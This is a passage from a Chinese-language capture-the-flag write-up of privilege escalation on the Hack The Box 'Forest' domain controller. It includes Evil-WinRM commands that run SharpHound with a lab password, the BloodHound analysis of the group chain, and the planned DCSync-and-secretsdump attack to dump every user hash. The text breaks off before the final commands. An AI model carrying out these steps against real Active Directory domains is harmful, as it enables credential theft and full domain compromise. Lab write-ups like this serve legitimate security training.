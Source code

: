 # 提权

## bloodhound

由于这是一台DC服务器，我们用bloodhound分析域里面的权限关系。

开启neo4j
```neo4j console```

开启bloodhound
```bloodhound --no-sandbox```

把SharpHound.ps1传到靶机，执行：
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module C:\Users\svc-alfresco\Documents\SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-Bloodhound -CollectionMethod All -Domain htb.local -LDAPUser "svc-alfresco" -LDAPPass "s3rvice"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls


    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         1/5/2022   7:04 AM          15528 20220105070402_BloodHound.zip
-a----         1/5/2022   7:04 AM          23725 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----         1/5/2022   7:02 AM         973732 SharpHound.ps1



```

把20220105053344_forest.zip从靶机下载到kali
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20220105053344_forest.zip
Info: Downloading 20220105053344_forest.zip to ./20220105053344_forest.zip

                                                             
Info: Download successful!

```

把20220105053344_forest.zip导入到bloodhound

[这里是图片]

## 分析

可以看到svc-alfresco 是 Service Accounts 的成员
svc-alfresco同时还是 Privileged IT Accounts的成员
另外，Privileged IT Accounts 是 Account Operators 的成员

Account Operators对 Exchange Windows Permissions 有 GenericAll权限

何谓GenericAll权限?
bloodhound里的help手册说明如下:
>The members of the group ACCOUNT OPERATORS@HTB.LOCAL have GenericAll privileges to the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL.This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.


可以理解可以添加域用户，为域用户赋予各种权限，我们主要的攻击点就是svc-alfresco通过一连串组继承，拥有```Exchange Windows Permissions```的权限

所以这里的攻击思路是，给用户赋予DCSync的权限，然后利用secretsdump.py导出所有用户哈希。

```